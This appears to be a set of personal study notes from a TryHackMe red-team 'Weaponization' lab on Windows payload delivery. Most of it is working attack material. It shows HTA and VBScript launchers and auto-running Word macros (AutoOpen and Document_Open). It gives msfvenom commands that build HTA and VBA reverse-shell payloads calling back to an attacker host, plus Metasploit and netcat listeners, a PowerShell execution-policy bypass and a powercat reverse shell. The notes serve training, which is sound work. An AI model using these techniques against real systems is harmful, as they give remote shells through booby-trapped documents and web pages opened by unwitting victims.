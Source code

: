 # Weaponization

Weaponizatiion is when red teamers use their own crafted tools to exploit a target

## Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
It uses VBScript

### Showing a message box

- Windows message box
  ```
  Dim message
  message = "Hello"
  MsgBox message
  ```
- run it in cmd: `wscript hello.vbs`

### Use it to run exe files

- Run an exe file with VBScript
  ```
  Set shell = WScript.CreateObject("Wscript.Shell")
  shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
  ```
- Execute it with wscript or cscript in cmd: `wscript c:\Users\thm\Desktop\calc.vbs` or `cscript.exe c:\Users\thm\Desktop\calc.vbs`
- In case of blacklist, possible to rename in txt and still run it: `wscript /e:VBScript c:\Users\thm\Desktop\payload.txt` 

## HTML Application (HTA)

### Using and `ActiveXObject to execute cmd.exe

```
<html>
<body>
<script>
        var c= 'cmd.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

- serve the payload `python3 -m http.server 8000`
- Visit the page from the target machine `http://IP-ATTACK-MACHINE:8000/payload.hta` and run it

### Reverse shell

- Create a reverse shell with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP-ATTACK-MACHINE LPORT=443 -f hta-psh -o thm.hta`
- Launch a listener: `nc -lvp 443`
- The reverse shell is launched when the link is visited from the target machine
- Possible to generate and serve HTA with Metasploit framework `use exploit/windows/misc/hta_server`and we need to set LHOST, LPORT, SRVHOST, Payload we can use this payload `windows/meterpreter/reverse_tcp`
- When the link is visited in the target we get a meterpreter shell

## Visual Basic for Application (VBA)

- We need to use Word
- We open Visual Basic Editor by selecting `view → macros`
- We can give a name to our macro and click create
- We then can make another message box
```
Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- We run the macro with F5
- To execute it automatically we can use after the document is open we need to use AutoOpen and Document_open
```
Sub Document_Open()
  MACRONAME
End Sub

Sub AutoOpen()
  MACRONAME
End Sub

Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- we save the document in docm or doc

### Execute a bin

```
Sub ExecBin()
        Dim payload As String
        payload = "calc.exe"
        CreateObject("Wscript.Shell").Run payload,0
End Sub
```

### Use msfvenom for VBA

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=443 -f vba
```

- We just need to copy the output in the file
- We set the listener with msfconsole `use exploit/multi/handler` `set payload windows/meterpreter/reverse_tcp` we set also LHOST and LPORT
- When the doc is open in the target machine we get a shell

## PowerShell

- Write something with powershell we open a text editor and put this inside: `Write-Output "something"`
- We save the file with .PS1 extension
- We can execute it from the cmd: `powershell -File thm.ps1`

### Execution policy

- See if we are restricted: `Get-ExecutionPolicy`
- Change it: `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned`
- we can also bypassing when executing the script: `powershell -ex bypass -File script.ps1`

### Getting a reverse shell

- We can use [powercat](https://github.com/besimorhino/powercat)
- We set up a listener `nc -lvp 443`
- We launch powercat `powercat -c ATTACKING-MACHINE-IPP -p 443 -e cmd"
- We should get a shell
 
## Command and Control

### TODO`

## Resources

- [TryHackMe - Weaponization](https://tryhackme.com/room/weaponization)
- [Red Teaming Toolkit - infosecn1nja](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)
